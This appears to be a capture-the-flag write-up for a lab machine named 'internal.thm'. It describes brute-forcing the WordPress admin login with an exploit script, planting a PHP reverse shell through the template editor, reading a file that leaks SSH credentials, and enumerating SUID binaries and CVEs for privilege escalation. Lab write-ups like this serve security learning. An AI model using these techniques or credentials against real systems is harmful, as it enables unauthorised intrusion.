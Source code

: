 
[+] XML-RPC seems to be enabled: http://internal.thm/wordpress/xmlrpc.php

- Running wpxploit with default wordlist and admin ``./exploit.py http://internal.thm/wordpress/ 5 15`` gives us admin:my2boys for wordpress login.

![0xskar](/assets/internal02.png)

## # Privilege Escalation Vulnerabilities

- Found during linpeas scan Vulnerable to CVE-2021-4034
- Found during ``wpscan`` - Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation | linux/local/46676.php

1. insert php reverse shell into wordpress template editor and open up reverse shell ![0xskar](/assets/internal03.png)

2. browse the machine.

```shell
$ cd opt
$ ls
containerd
wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123

l:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

3. looks like we found Aubreanna's SSH creds, can login with these and get our user.txt flag. Don't leave passwords laying around... and also a Jenkins service? But now we can check privs and try to get root 
- Ubuntu 18.04.4 LTS

4. find SUID bits and we have a few 

```shell
/bin/mount
/bin/umount
/bin/ping
/bin/fusermount
/bin/su
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/pkexec
```
